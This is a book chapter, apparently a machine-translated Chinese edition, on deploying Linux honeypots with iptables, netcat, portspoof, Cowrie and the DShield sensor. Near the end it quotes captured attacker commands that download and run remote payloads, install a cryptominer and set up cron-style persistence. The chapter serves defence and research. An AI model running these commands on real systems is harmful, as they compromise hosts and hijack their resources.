








# 十四、Linux 上的蜜罐服务

在本章中，我们将讨论“蜜罐”——可以部署来收集攻击者活动的虚假服务，其假阳性率几乎为零。 我们将讨论各种架构和放置选项，以及部署“蜜罐”的风险。 还将讨论几种不同的蜜罐架构。 本章将开始介绍如何在网络上实现各种“欺骗”方法，以分散和延迟攻击者的注意力，并提供高保真度的攻击者活动日志，几乎没有误报。

在本章中，我们将探讨以下主题:

*   蜜罐概述-什么是蜜罐，为什么我想要一个?
*   部署场景和架构——我应该把蜜罐放在哪里?
*   部署蜜罐的风险
*   例子 honeypot
*   分布式/社区蜜罐-互联网风暴中心的 DShield 蜜罐项目

# 技术要求

本章中讨论的所有蜜罐选项都可以直接部署在我们在本书中一直使用的示例 Linux 主机上，或者部署在该主机 VM 的一个副本上。 最后一个来自 Internet Storm Center 的蜜罐示例可能是您选择放在另一个专用主机上的蜜罐。 特别是，如果你打算把这个服务放在互联网上，我建议一个专用的主机，你可以随时删除。

# 蜜罐概述-什么是蜜罐，为什么我想要一个?

蜜罐服务器本质上是一个假服务器——它以某种或另一种类型的*真实*服务器的形式出现，但其背后除了记录和警告任何连接活动外，没有任何数据或功能。

你为什么想要这样的东西? 还记得在[*第 13 章*](13.html#_idTextAnchor236)、*Linux 上的入侵防御系统*中，我们处理假阳性警报的时候吗? 这些警报报告攻击，但实际上是由正常活动触发的。 嗯，蜜罐通常只发送你所谓的“高保真”警报。 如果蜜罐触发，要么是因为真正的攻击者行为，要么是因为配置错误。

例如，您可能在服务器的 VLAN 中有一个蜜罐 SQL 服务器。 该服务器将监听端口`1433/tcp`(SQL)，也可能监听端口`3389/tcp`(远程桌面)。 因为它不是一个实际的 SQL 服务器，所以它不会(永远)看到任何一个端口上的连接。 如果它确实看到一个连接，要么是有人在网络上四处走动，而他们可能不应该在那里，或者这是一个有效的攻击。 仅供参考——渗透测试几乎总是会在项目中很快触发“蜜罐”，因为它们会扫描各种子网来寻找公共服务。

也就是说，在许多攻击中，在造成不可弥补的伤害之前，你只有很短的时间来隔离和驱逐攻击者。 蜜罐能帮上忙吗? 简单的回答是肯定的。 蜜罐有几种形式:


这些场景通常适用于内部“蜜罐”和网络中已经存在的攻击者。 在这些情况下，攻击者已经破坏了您网络中的一个或多个主机，并试图“向上食物链”移动到更有价值的主机和服务(以及数据)。 在这些情况下,你有某种程度的控制攻击者的平台——如果这是一个破坏主机可以脱机操作,重建它,或如果它是攻击者的物理主机(例如无线网络妥协后,),你可以踢掉你的网络和纠正他们的访问方法。

另一种情况完全是为了研究。 例如，您可以在公共互联网上放置一个蜜罐 web 服务器，以监视各种攻击的趋势。 这些趋势通常是安全社区发现新漏洞的第一个标志——我们会看到攻击者试图利用特定平台上的 web 服务漏洞，这是我们以前从未在“现场”看到过的。 或者，您可能会看到使用新帐户的 web 或 SSH 服务器的身份验证服务受到攻击，这可能表明有新的恶意软件，或者可能是某些新服务遇到了涉及其订阅者凭据的入侵。 所以，在这种情况下，我们不是在保护我们的网络，而是监视新的敌对活动，这些活动可以用来保护每个人的网络。

蜜罐不停止与网络服务。 以同样的方式使用数据和凭证的现象越来越普遍。 例如，您可能有一些具有“吸引人的”名称的文件，当它们被打开时会触发警报——这可能表明您有一个内部攻击者(当然，一定要记录 IP 地址和用户 id)。 或者您可能在系统中拥有“虚拟”帐户，如果试图访问这些帐户，就会触发这些帐户——这些帐户可能再次用于查明攻击者何时在环境中。 或者您可以“水印”关键数据，这样如果在您的环境之外看到它，您就会知道您的组织已经被破坏了。 所有这些都利用了相同的思维方式——当攻击者访问一个有吸引力的服务器、帐户或甚至一个有吸引力的文件时，会触发一组高保真警报。

现在，您已经了解了蜜罐服务器是什么以及为什么需要一个蜜罐服务器，让我们进一步研究一下，看看您可能选择在网络的何处放置一个蜜罐服务器。

# 部署场景和架构——我应该把蜜罐放在哪里?

在内部网络上使用“蜜罐”的一个很好的方法是简单地监视，以获得对经常受到攻击的端口的连接请求。 在一个典型的组织的内部网络中，有一个简短的端口列表，攻击者可能会在他们的第一次“让我们研究一下网络”扫描集中扫描这些端口。 如果你在一个不是合法托管该服务的服务器上看到一个连接请求，这是一个非常高保真的警告! 这相当肯定地表明了恶意活动!

你会注意哪些港口? 一个合理的开始清单可能包括:


课程的列表还在继续——裁剪蜜罐服务以反映环境中运行的实际服务是非常常见的。 例如,一个生产设施或公用事业可能站起来honeypot 伪装成**监控和数据采集(**SCADA)或工业控制系统**【显示】(**ICS)服务。****

 **从我们的列表中，如果您试图向攻击者模拟 SQL 服务器，您可能会让蜜罐侦听 TCP 端口`445`和`1433`。 您不希望监听太多端口。 例如，如果您有一个服务器监听上表中的所有端口，那么它会立即向攻击者发出信号:“这是一个蜜罐”，因为这些端口几乎不会出现在单个生产主机上。 它还告诉攻击者修改他们的攻击，因为现在他们知道您有蜜罐，并且可能您正在监视蜜罐的活动。

那么，我们应该把蜜罐放在哪里? 在过去，对于对安全性感兴趣的系统管理员来说，拥有一个蜜罐服务器更像是一种“运动”，他们会将 SSH 蜜罐放在互联网上，只是为了看看人们会做什么。 那些日子已经一去不复返了，任何直接放在互联网上的东西每天都会遇到几次攻击——或者每小时或每分钟，这取决于它们是什么样的组织以及正在提供什么样的服务。

在现代网络中，我们在哪里看到“蜜罐”? 你可以把一个放在DMZ 中:



图 14.1 - DMZ 中的蜜罐

这不过只是检测网络攻击,这是有限的效用——来自互联网的攻击几乎是连续的,正如我们在[*中讨论的第 13 章*](13.html#_idTextAnchor236),*入侵预防系统在 Linux 上*。 更常见的是，我们会在内部子网中看到“蜜罐”:



图 14.2 -内部网络中的蜜罐

这种方法是检测内部攻击的一种很好的方法，几乎 100%的保真度。 任何您在临时或安排的基础上进行的内部扫描当然都会被检测到，但除此之外，所有来自这些“蜜罐”的检测都应该是合法的攻击，或者至少是值得调查的活动。

公共互联网上的“研究蜜罐”可以收集各种攻击的趋势。 此外，这些通常还允许您将攻击配置文件与合并的攻击数据进行比较。



图 14.3 -公众互联网上的“研究”蜜罐

现在我们已经了解了部署几种类型的“蜜罐”所涉及的各种架构，以及为什么我们可能想要或需要一个，部署这些类型的“欺骗宿主”所涉及的风险是什么?

# 部署蜜罐的风险

常识既然“蜜罐”的存在是为了检测攻击者，那么当然有可能看到攻击者被成功攻击和攻击。 特别是，最后一个向互联网公开服务的例子是一个相当危险的游戏。 如果攻击者破坏了您的“蜜罐”，那么他们不仅在您的网络中有了立足点，而且现在他们还控制了由该“蜜罐”发送的警报，您可能依赖它来检测攻击。 话虽如此，明智的做法是总是为妥协做计划，并随时准备缓解措施:

*   如果蜜罐面对公共 internet，那么将它放在 DMZ 中，这样就不会从该段访问任何其他生产主机。
*   如果您的蜜罐在您的内部网络中，您可能仍然希望将它放在带有 NAT 条目的 DMZ 中，以使它看起来像是在内部网络中。 另外，**私有 VLAN**(**PVLAN**)也可以很好地完成这种配置。
*   只允许您希望从蜜罐服务中看到的出站活动。
*   对您的蜜罐进行映像，以便如果您需要从头开始恢复它，您可以从一个已知的良好映像进行恢复，而不是从头重新安装 Linux 等等。 利用虚拟化可以在这里提供很大的帮助——恢复一个蜜罐服务器应该只需要几分钟或几秒钟。
*   把所有蜜罐活动记录到一个中心位置。 这是已知的，随着时间的推移，您将发现可能在不同的情况下部署多个这些组件。 中央日志允许您配置中央警报，所有的主机，您的攻击者可能最终危及。 请参考[*第 12 章*](12.html#_idTextAnchor216)，*使用 Linux 的网络监控*，了解中央日志记录的方法，以及保护这些日志服务器的方法。
*   定期旋转你的蜜罐图像——除了本地日志，蜜罐本身不应该有任何长期的数据，所以如果你有很好的主机恢复机制，那么定期自动地重新生成你的蜜罐图像是很明智的。

了解了架构和这个警告之后，让我们讨论一些常见的蜜罐类型，首先从基本的端口警报方法开始。

# 示例蜜罐

在本节中，我们将讨论构建和部署各种蜜罐解决方案。 我们将介绍如何构建它们，您可能希望将它们放置在哪里，以及为什么要这样做。 我们将重点关注以下几点:

*   基本的“TCP 端口”蜜罐，在那里我们警告攻击者端口扫描和试图连接到我们的各种服务。 我们将把它们作为没有开放端口的警报(因此攻击者不知道它们触发了警报)进行讨论，并将它们作为实际的开放端口服务来减慢攻击者的速度。
*   预先构建的蜜罐应用程序，包括开源的和商业化的。
*   互联网风暴中心的 DShield 蜜罐，它是分布式的和基于互联网的。

让我们开始吧，从几种不同的方法站起来“开放端口”蜜罐主机。

## 基本的端口报警蜜罐- iptables, netcat 和 portspoof

基本端口连接请求在 Linux 中很容易捕获，您甚至不需要侦听端口! 因此，您不仅会在您的内部网络上捕获恶意主机，而且它们根本看不到任何开放的端口，因此，没有任何迹象表明您正在“拍摄”它们。

为此，我们将使用`iptables`到监视任何给定端口上的连接请求，然后在它们发生时记录它们。 这个命令将监视到端口`8888/tcp`的连接请求(`SYN`数据包):

```sh
$ sudo iptables -I INPUT -p tcp -m tcp --dport 8888 -m state --state NEW  -j LOG --log-level 1 --log-prefix "HONEYPOT - ALERT PORT 8888"
```

我们可以很容易地用`nmap`(从远程机器)测试这一点——请注意，端口实际上是关闭的:

```sh
$ nmap -Pn -p8888 192.168.122.113
Starting Nmap 7.80 ( https://nmap.org ) at 2021-07-09 10:29 Eastern Daylight Time
Nmap scan report for 192.168.122.113
Host is up (0.00013s latency).
PORT     STATE  SERVICE
8888/tcp closed sun-answerbook
MAC Address: 00:0C:29:33:2D:05 (VMware)
Nmap done: 1 IP address (1 host up) scanned in 5.06 seconds
```

现在我们可以检查日志:

```sh
$ cat /var/log/syslog | grep HONEYPOT
Jul  9 10:29:49 ubuntu kernel: [  112.839773] HONEYPOT - ALERT PORT 8888IN=ens33 OUT= MAC=00:0c:29:33:2d:05:3c:52:82:15:52:1b:08:00 SRC=192.168.122.201 DST=192.168.122.113 LEN=44 TOS=0x00 PREC=0x00 TTL=41 ID=42659 PROTO=TCP SPT=44764 DPT=8888 WINDOW=1024 RES=0x00 SYN URGP=0
robv@ubuntu:~$ cat /var/log/kern.log | grep HONEYPOT
Jul  9 10:29:49 ubuntu kernel: [  112.839773] HONEYPOT - ALERT PORT 8888IN=ens33 OUT= MAC=00:0c:29:33:2d:05:3c:52:82:15:52:1b:08:00 SRC=192.168.122.201 DST=192.168.122.113 LEN=44 TOS=0x00 PREC=0x00 TTL=41 ID=42659 PROTO=TCP SPT=44764 DPT=8888 WINDOW=1024 RES=0x00 SYN URGP=0
```

指[*第十二章*](12.html#_idTextAnchor216),*网络监控使用 Linux*,在这里很容易登录到一个远程 syslog 服务器和警报发生`HONEYPOT`这个词。 我们可以扩展这个模型，使其包含任何数量的有趣端口。

如果你想让端口打开并发出警报，你可以用和`netcat`来做到这一点——你甚至可以通过添加横幅来“花哨”:

```sh
#!/bin/bash
PORT=$1
i=1
HPD='/root/hport'
if [ ! -f $HPD/$PORT.txt ]; then
    echo $PORT >> $HPD/$PORT.txt
fi
BANNER='cat $HPD/$PORT.txt'
while true;
    do
    echo "................................." >> $HPD/$PORT.log;
    echo -e $BANNER | nc -l $PORT -n -v 1>> $HPD/$PORT.log 2>> $HPD/$PORT.log;
    echo "Connection attempt - Port: $PORT at" 'date';
    echo "Port Connect at:" 'date' >> $HPD/$PORT.log;
done
```

因为我们正在侦听任意端口，所以您将希望以根权限运行这个脚本。 还请注意，如果您想要一个特定的横幅(例如，RDP 用于端口`3389/tcp`或 ICA 用于端口`1494/tcp`)，您需要使用以下内容创建这些横幅文件:

```sh
echo RDP > 3389.txt
The output as your attacker connects will look like:
# /bin/bash ./hport.sh 1433
Connection attempt - Port: 1433 at Thu 15 Jul 2021 03:04:32 PM EDT
Connection attempt - Port: 1433 at Thu 15 Jul 2021 03:04:37 PM EDT
Connection attempt - Port: 1433 at Thu 15 Jul 2021 03:04:42 PM EDT
```

日志文件看起来如下所示:

```sh
$ cat 1433.log
.................................
Listening on 0.0.0.0 1433
.................................
Listening on 0.0.0.0 1433
Connection received on 192.168.122.183 11375
Port Connect at: Thu 15 Jul 2021 03:04:32 PM EDT
.................................
Listening on 0.0.0.0 1433
Connection received on 192.168.122.183 11394
Port Connect at: Thu 15 Jul 2021 03:04:37 PM EDT
.................................
Listening on 0.0.0.0 1433
Connection received on 192.168.122.183 11411
Port Connect at: Thu 15 Jul 2021 03:04:42 PM EDT
.................................
Listening on 0.0.0.0 1433
```

更好的方法是使用一个实际的包，由某人维护，它将监听多个端口。 您可以用 Python 快速编写一些代码来监听特定的端口，然后记录每个连接的警报。 或者，您可以利用已经完成此工作的其他人的出色工作，并且也完成了调试，所以您不必这样做!

Portspoof 就是这样一个应用程序——你可以在[https://github.com/drk1wi/portspoof](https://github.com/drk1wi/portspoof)找到它。

Portspoof 使用的是“老式的”Linux 安装; 即，将您的目录更改为`portspoof`下载目录，然后依次执行以下命令:

```sh
# git clone  https://github.com/drk1wi/portspoof
# cd portspoof
# Sudo ./configure
# Sudo Make
# Sudo Make install
```

这会将 Portspoof 安装到`/usr/local/bin`中，配置文件在`/usr/local/etc`中。

看看使用`more`或`less`的`/usr/local/etc/portspoof.conf`-你会发现它很好注释并且很容易修改以满足你的需求。

默认情况下，这个工具是安装后立即使用。 让我们首先使用`iptables`重定向我们想要监听的所有端口，并将它们指向`4444/tcp`端口，这是`portspoof`的默认端口。 注意，您需要`sudo`权限才能执行`iptables`命令:

```sh
# iptables -t nat -A PREROUTING -p tcp -m tcp --dport 80:90 -j REDIRECT --to-ports 4444
```

接下来，只需运行`portspoof`，使用默认签名和配置:

```sh
$ portspoof -v -l /some/path/portspoof.log –c /usr/local/etc/portspoof.conf –s /usr/local/etc/portspoof_signatures
```

现在我们将扫描一些被重定向的端口，一些被重定向的端口和一些没有被重定向的端口-注意，我们正在使用`banner.nse`收集服务“横幅”，并且`portspoof`已经为我们预先配置了一些横幅:

```sh
nmap -sT -p 78-82 192.168.122.113 --script banner
Starting Nmap 7.80 ( https://nmap.org ) at 2021-07-15 15:44 Eastern Daylight Time
Nmap scan report for 192.168.122.113
Host is up (0.00020s latency).
PORT   STATE    SERVICE
78/tcp filtered vettcp
79/tcp filtered finger
80/tcp open     http
| banner: HTTP/1.0 200 OK\x0D\x0AServer: Apache/IBM_Lotus_Domino_v.6.5.1\
|_x0D\x0A\x0D\x0A--<html>\x0D\x0A--<body><a href="user-UserID">\x0D\x0...
81/tcp open     hosts2-ns
| banner: <pre>\x0D\x0AIP Address: 08164412\x0D\x0AMAC Address: \x0D\x0AS
|_erver Time: o\x0D\x0AAuth result: Invalid user.\x0D\x0A</pre>
82/tcp open     xfer
| banner: HTTP/1.0 207 s\x0D\x0ADate: r\x0D\x0AServer: FreeBrowser/146987
|_099 (Win32)
MAC Address: 00:0C:29:33:2D:05 (VMware)
Nmap done: 1 IP address (1 host up) scanned in 6.77 seconds
```

回到的`portspoof`屏幕，我们将看到的如下:

```sh
$ portspoof -l ps.log -c ./portspoof.conf  -s ./portspoof_signatures
-> Using log file ps.log
-> Using user defined configuration file ./portspoof.conf
-> Using user defined signature file ./portspoof_signatures
Send to socket failed: Connection reset by peer
Send to socket failed: Connection reset by peer
Send to socket failed: Connection reset by peer
The logfile looks like this:
$ cat /some/path/ps.log
1626378481 # Service_probe # SIGNATURE_SEND # source_ip:192.168.122.183 # dst_port:80
1626378481 # Service_probe # SIGNATURE_SEND # source_ip:192.168.122.183 # dst_port:82
1626378481 # Service_probe # SIGNATURE_SEND # source_ip:192.168.122.183 # dst_port:81
```

您还可以从 syslog 中获取`portspoof`条目。 信息是相同的，但是时间戳格式化为ASCII，而不是“从 epoch 开始的秒数”:

```sh
$ cat /var/log/syslog | grep portspoof
Jul 15 15:48:02 ubuntu portspoof[26214]:  1626378481 # Service_probe # SIGNATURE_SEND # source_ip:192.168.122.183 # dst_port:80
Jul 15 15:48:02 ubuntu portspoof[26214]:  1626378481 # Service_probe # SIGNATURE_SEND # source_ip:192.168.122.183 # dst_port:82
Jul 15 15:48:02 ubuntu portspoof[26214]:  1626378481 # Service_probe # SIGNATURE_SEND # source_ip:192.168.122.183 # dst_port:81
```

最后，如果是时候拆下`portspoof`了，你会想要移除我们加入的那些 NAT 条目，让你的 Linux 主机回到它对这些端口的原始处理:

```sh
$ sudo iptables -t nat -F
```

但如果我们想要更复杂的东西呢? 我们当然可以让我们自己构建的蜜罐对攻击者来说变得越来越复杂和现实，或者我们可以购买一个更完整的产品，包含完整的报告和支持产品。

## 其他常见蜜罐

公众方面,可以使用**宝贝**[(https://github.com/cowrie/cowrie),这是一个由*SSH 蜜罐维护米歇尔 Oosterhof*。 可以将其配置为像真正的主机一样运行——游戏的目的当然是浪费攻击者的时间，让你有时间将他们从你的网络中驱逐出去。 在此过程中，你可以了解到他们的技能水平，也可以了解到他们在攻击中真正想要完成的任务。](https://github.com/cowrie/cowrie)

*本·杰克逊*的**WebLabyrinth**([https://github.com/mayhemiclabs/weblabyrinth](https://github.com/mayhemiclabs/weblabyrinth))呈现了一个永不结束的系列网页作为一个“篷布”为 web 扫描仪。 同样的，目标都是一样的——浪费攻击者的时间，在攻击过程中尽可能多地获得他们的情报。

**Thinkst Canary**([https://canary.tools/](https://canary.tools/)和[https://thinkst.com/](https://thinkst.com/))是一个商业解决方案，在细节和完整性方面非常彻底。 在事实上，这个产品的细节水平让你站起来一个完整的“诱饵数据中心”或“诱饵工厂”。 它不仅使您可以愚弄攻击者，而且通常欺骗的程度使攻击者认为他们实际上正在生产环境中进行。

让我们跳出内部网络以及相关的内部和 DMZ 蜜罐，看看面向研究的蜜罐。

# 分布式/社区蜜罐-互联网风暴中心的 DShield 蜜罐项目

首先，从您的主机获取当前日期和时间。 任何严重依赖于日志的活动都需要准确的时间:

```sh
# date
Fri 16 Jul 2021 03:00:38 PM EDT
```

如果你的日期/时间是关闭的，或者没有被可靠地配置，你会想要在你开始之前修复它——这对任何操作系统中的几乎任何服务都是如此。

现在，切换到一个安装目录，然后使用`git`下载应用程序。 如果你没有`git`，使用我们在本书中使用的标准`sudo apt-get install git`来获得它。 安装`git`后，该命令将在当前工作目录下创建一个`dshield`目录:

```sh
git clone https://github.com/DShield-ISC/dshield.git
```

接下来，运行`install`脚本:

```sh
cd dshield/bin
sudo ./install.sh
```

在这个过程中，将会有几个输入屏幕。 我们将在这里讨论一些关键的问题:

1.  First, we have the standard warning that honeypot logs will of course contain sensitive information, both from your environment and about the attacker:

    

    图 14.4 -对敏感信息的警告

2.  The next installation screen seems to indicate that this is installing on the Raspberry Pi platform. Don't worry, while this is a very common platform for this firewall, it will install on most common Linux distributions.

    

    图 14.5 -关于安装和支持的第二次警告

3.  Next, we get yet another warning, indicating that your collected data will become part of a larger dataset that is the Internet Storm Center's DShield project. Your data does get anonymized when it's consolidated into the larger dataset, but if your organization isn't prepared to share security data, then this type of project might not be right for you:

    

    图 14.6 -关于数据共享的第三个安装警告

4.  You'll be asked if you want to enable automatic updates. The default here is to enable these – only disable them if you have a really good reason to.

    

    图 14.7 -更新的安装选择

5.  You'll be asked for your email address and API key. This is used for the data submission process. You can get your API key by logging into the [https://isc.sans.edu](https://isc.sans.edu) site and viewing your account status:

    

    图 14.8 -上传数据的凭据输入

6.  You'll also be asked which interface you want the honeypot to listen on. In these cases, normally there is only one interface – you definitely don't want your honeypot to bypass your firewall controls!

    

    图 14.9 -接口选择

7.  The certificate information for your HTTPS honeypot gets inputted – if you want your sensor to be somewhat anonymous to your attacker, you might choose to put bogus information into these fields. In this example, we're showing mostly legitimate information. Note that the HTTPS honeypot is not yet implemented at the time of this writing, but it is in the planning stages.

    

    ．

    图 14.10 -证书信息

8.  You'll be asked if you want to install a **Certificate Authority** (**CA**). In most cases, choosing **Yes** here makes sense – this will install a self-signed certificate on the HTTPS service.

    

    图 14.11 -是否需要 CA ?

9.  最后一个屏幕重新启动主机，并通知您实际的 SSH 服务将更改到不同的端口。



图 14.12 -最终安装画面

重启后，检查蜜罐状态。 注意:传感器安装在`/srv/dshield`:

```sh
$ sudo /srv/dshield/status.sh
[sudo] password for hp01:
#########
###
### DShield Sensor Configuration and Status Summary
###
#########
Current Time/Date: 2021-07-16 15:27:00
API Key configuration ok
Your software is up to date.
Honeypot Version: 87
###### Configuration Summary ######
E-mail : rob@coherentsecurity.com
API Key: 4BVqN8vIEDjWxZUMziiqfQ==
User-ID: 948537238
My Internal IP: 192.168.122.169
My External IP: 99.254.226.217
###### Are My Reports Received? ######
Last 404/Web Logs Received:
Last SSH/Telnet Log Received:
Last Firewall Log Received: 2014-03-05 05:35:02
###### Are the submit scripts running?
Looks like you have not run the firewall log submit script yet.
###### Checking various files
OK: /var/log/dshield.log
OK: /etc/cron.d/dshield
OK: /etc/dshield.ini
OK: /srv/cowrie/cowrie.cfg
OK: /etc/rsyslog.d/dshield.conf
OK: firewall rules
ERROR: webserver not exposed. check network firewall
```

另外，为了确保提交了报告，在一两个小时后检查[https://isc.sans.edu/myreports.html](https://isc.sans.edu/myreports.html)(您需要登录)。

在状态检查中显示的错误是这台主机还没有上网-这将是我们的下一步。 在我的例子中，我将把它放在一个 DMZ 中，入站访问只访问端口`22/tcp`、`80/tcp`和`443/tcp`。 完成这个更改后，我们的状态检查现在通过:

```sh
###### Checking various files
OK: /var/log/dshield.log
OK: /etc/cron.d/dshield
OK: /etc/dshield.ini
OK: /srv/cowrie/cowrie.cfg
OK: /etc/rsyslog.d/dshield.conf
OK: firewall rules
OK: webserver exposed
```

当浏览器被指向蜜罐的地址时，他们会看到:


图 14.13 -从浏览器中看到的 ISC 网络蜜罐

在蜜罐服务器本身上，您可以看到各种登录会话，因为攻击者获得了访问假 SSH 和 Telnet 服务器的权限。 在`/srv/cowrie/var/log/cowrie`中，文件为`cowrie.json`和`cowrie.log`(以及前几天的日期版本):

```sh
$ pwd
/srv/cowrie/var/log/cowrie
$ ls
cowrie.json             cowrie.json.2021-07-18  cowrie.log.2021-07-17
cowrie.json.2021-07-16  cowrie.log              cowrie.log.2021-07-18
cowrie.json.2021-07-17  cowrie.log.2021-07-16
```

当然，`JSON`文件的格式是为了让您与代码一起使用。 例如，Python 脚本可以获取信息并将其提供给 SIEM 或另一个“下一阶段”的防御工具。

但是文本文件很容易阅读—您可以使用`more`或`less`(Linux 中两个常见的文本查看应用程序)打开它。 让我们看一些感兴趣的日志条目。

下面的代码块显示了开始一个新的会话—注意协议和源 IP 都在日志条目中。 在 SSH 会话中，你还会在日志中看到所有不同的 SSH 加密参数:

```sh
2021-07-19T00:04:26.774752Z [cowrie.telnet.factory.HoneyPotTelnetFactory] New co
nnection: 27.213.102.95:40579 (192.168.126.20:2223) [session: 3077d7bc231f]
2021-07-19T04:04:20.916128Z [cowrie.telnet.factory.HoneyPotTelnetFactory] New co
nnection: 116.30.7.45:36673 (192.168.126.20:2223) [session: 18b3361c21c2]
2021-07-19T04:20:01.652509Z [cowrie.ssh.factory.CowrieSSHFactory] New connection
: 103.203.177.10:62236 (192.168.126.20:2222) [session: 5435625fd3c2]
```

我们还可以查找各种攻击者试图运行的命令。 在这些例子中，他们试图下载额外的 Linux 工具，因为蜜罐似乎缺少一些，或可能一些恶意软件持续运行:

```sh
2021-07-19T02:31:55.443537Z [SSHChannel session (0) on SSHService b'ssh-connection' on HoneyPotSSHTransport,5,141.98.10.56] Command found: wget http://142.93.105.28/a
2021-07-17T11:44:11.929645Z [CowrieTelnetTransport,4,58.253.13.80] CMD: cd /tmp || cd /var/ || cd /var/run || cd /mnt || cd /root || cd /; rm -rf i; wget http://58.253.13.80:60232/i; curl -O http://58.253.13.80:60232/i; /bin/busybox wget http://58.253.13.80:60232/i; chmod 777 i || (cp /bin/ls ii;cat i>ii;rm i;cp ii i;rm ii); ./i; echo -e '\x63\x6F\x6E\x6E\x65\x63\x74\x65\x64'
2021-07-18T07:12:02.082679Z [SSHChannel session (0) on SSHService b'ssh-connection' on HoneyPotSSHTransport,33,209.141.53.60] executing command "b'cd /tmp || cd
 /var/run || cd /mnt || cd /root || cd /; wget http://205.185.126.121/8UsA.sh; curl -O http://205.185.126.121/8UsA.sh; chmod 777 8UsA.sh; sh 8UsA.sh; tftp 205.185.126.121 -c get t8UsA.sh; chmod 777 t8UsA.sh; sh t8UsA.sh; tftp -r t8UsA2.sh -g 205.185.126.121; chmod 777 t8UsA2.sh; sh t8UsA2.sh; ftpget -v -u anonymous -p
anonymous -P 21 205.185.126.121 8UsA1.sh 8UsA1.sh; sh 8UsA1.sh; rm -rf 8UsA.sh t8UsA.sh t8UsA2.sh 8UsA1.sh; rm -rf *'"
```

注意，第一个攻击者在末尾以十六进制形式发送了一个 ASCII 字符串`'\x63\x6F\x6E\x6E\x65\x63\x74\x65\x64'`，即“connected”。 这可能是为了躲避入侵防御。 Base64 编码是您将在蜜罐日志中看到的另一种常见的规避技术。

第二个攻击者有一系列`rm`命令，用于在他们完成目标后清理他们的各种工作文件。

请注意，您在 SSH 日志中可能看到的另一件事情是语法错误。 通常这些都是来自测试较差的脚本，但一旦更频繁地建立会话，您将看到一个真正的人在敲击键盘，因此您可以从任何错误中了解他们的技能水平(或他们所在时区的深夜)。

在下面这些例子中，攻击者试图下载加密货币矿工应用程序，将他们新入侵的 Linux 主机添加到他们的加密货币挖掘“农场”:

```sh
2021-07-19T02:31:55.439658Z [SSHChannel session (0) on SSHService b'ssh-connection' on HoneyPotSSHTransport,5,141.98.10.56] executing command "b'curl -s -L https://raw.githubusercontent.com/C3Pool/xmrig_setup/master/setup_c3pool_miner.sh | bash -s 4ANkemPGmjeLPgLfyYupu2B8Hed2dy8i6XYF7ehqRsSfbvZM2Pz7 bDeaZXVQAs533a7MUnhB6pUREVDj2LgWj1AQSGo2HRj; wget http://142.93.105.28/a; chmod 777 a; ./a; rm -rfa ; history -c'"
2021-07-19T04:28:49.356339Z [SSHChannel session (0) on SSHService b'ssh-connection' on HoneyPotSSHTransport,9,142.93.97.193] executing command "b'curl -s -L https://raw.githubusercontent.com/C3Pool/xmrig_setup/master/setup_c3pool_miner.sh | bash -s 4ANkemPGmjeLPgLfyYupu2B8Hed2dy8i6XYF7ehqRsSfbvZM2Pz7 bDeaZXVQAs533a7MUnhB6pUREVDj2LgWj1AQSGo2HRj; wget http://142.93.105.28/a; chmod 777 a; ./a; rm -rfa; history -c'"
```

注意，它们都在它们的命令中添加了一个`history –c`附录，该附录清除了当前会话的交互历史，以隐藏攻击者的活动。

在这个例子中，攻击者试图添加一个恶意软件下载到 Linux 调度程序 cron 中，这样他们就可以保持持久性——如果他们的恶意软件被终止或删除，当下一次计划任务到来时，它将被重新下载并重新安装:

```sh
2021-07-19T04:20:03.262591Z [SSHChannel session (0) on SSHService b'ssh-connection' on HoneyPotSSHTransport,4,103.203.177.10] executing command "b'/system scheduler add name="U6" interval=10m on-event="/tool fetch url=http://bestony.club/poll/24eff58f-9d8a-43ae-96de-71c95d9e6805 mode=http dst-path=7wmp0b4s.rsc\\r\\n/import 7wmp0b4s.rsc" policy=api,ftp,local,password,policy,read,reboot,sensitive,sniff,ssh,telnet,test,web,winbox,write'"
```

攻击者试图下载的各种文件被收集在`/srv/cowrie/var/lib/cowrie/downloads`目录中。

你可以自定义宝贝蜜罐-一些常见的改变，你可能会设在以下地方:



还剩下什么? 只需在线检查您的 ISC 账户，您感兴趣的链接位于**My account**:


图 14.14 - ISC 蜜罐-在线报告

让我们更详细地讨论这些选项:



在网上，针对您的蜜罐的 SSH 活动被总结在 ISC 门户的**My SSH 报告**下面:


图 14.15 - SSH 蜜罐报告

目前SSH 合并数据的主要报告涉及到使用的用户 id 和密码:



图 14.16 - ISC SSH 报告-查看的合并用户 id 和密码

所有的活动都会被记录下来，所以我们会不时地看到针对这些攻击数据的研究项目，随着时间的推移，各种报告也会被细化。

web 蜜罐与 SSH 蜜罐的配置类似。 对各种攻击的检测在`/srv/www/etc/signatures.xml`文件中更新。 这些会从 Internet 风暴中心的中央服务器定期更新，所以当您可以自己进行本地编辑时，这些更改很可能会在下一次更新中被“击垮”。

当然，针对蜜罐的网络活动也都被记录了下来。 本地日志保存在`/srv/www/DB/webserver.sqlite`数据库中(SQLite 格式)。 通过抓取`webpy`字符串，也可以在`/var/log/syslog`中找到本地日志。

在示例蜜罐中检测到的各种情况包括以下攻击者，他正在寻找 HNAP 服务。 HNAP 是一个经常攻击的协议,通常是用来控制舰队的 ISP 调制解调器([https://isc.sans.edu/diary/More +在+ HNAP +——+ +是+ % 2 c + + +如何使用+ % 2 c + + +找到+如何/ 17648](https://isc.sans.edu/diary/More+on+HNAP+-+What+is+it%2C+How+to+Use+it%2C+How+to+Find+it/17648)),所以一个 HNAP 妥协会导致牺牲大量的设备:

```sh
Jul 19 06:03:08 hp01 webpy[5825]: 185.53.90.19 - - [19/Jul/2021 05:34:09] "POST /HNAP1/ HTTP/1.1" 200 –
```

同样的攻击者也在探测`goform/webLogin`。 在这个例子中，他们正在测试一个最近常见的 Linksys 路由器的漏洞:

```sh
Jul 19 06:03:08 hp01 webpy[5825]: 185.53.90.19 - - [19/Jul/2021 05:34:09] "POST /goform/webLogin HTTP/1.1" 200 –
```

这个攻击者正在寻找`boa`web 服务器。 这个 web 服务器有一些已知的漏洞，并且被几个不同的联网安全摄像头制造商使用([https://isc.sans.edu/diary/Pentesters+%28and+Attackers%29+Love+Internet+Connected+Security+Cameras%21/21231](https://isc.sans.edu/diary/Pentesters+%28and+Attackers%29+Love+Internet+Connected+Security+Cameras%21/21231))。 不幸的是，`boa`web 服务器项目已经被放弃了，所以不会有任何修复:

```sh
Jul 19 07:48:01 hp01 webpy[700]: 144.126.212.121 - - [19/Jul/2021 07:28:35] "POST /boaform/admin/formLogin HTTP/1.1" 200 –
```

这些活动报告类似地登录在 ISC 门户，在**My 404 reports**下——让我们来看一些。 该攻击者正在寻找 Netgear 路由器，可能正在寻找任何数量的最近的漏洞:


图 14.17 - isc404 报告-攻击者寻找易受攻击的 Netgear 服务

